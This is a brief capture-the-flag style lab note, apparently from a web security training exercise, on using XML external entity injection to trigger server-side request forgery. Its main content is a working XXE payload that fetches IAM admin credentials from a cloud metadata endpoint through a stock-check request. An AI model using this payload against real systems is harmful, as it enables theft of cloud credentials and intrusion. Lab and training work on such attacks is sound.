 # Lab: Exploiting XXE to perform SSRF attacks
Insert the server responses to the XML SSRF to the URL
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
<stockCheck><productId>&xxe;</productId><storeId>
&xxe;</storeId></stockCheck>
```

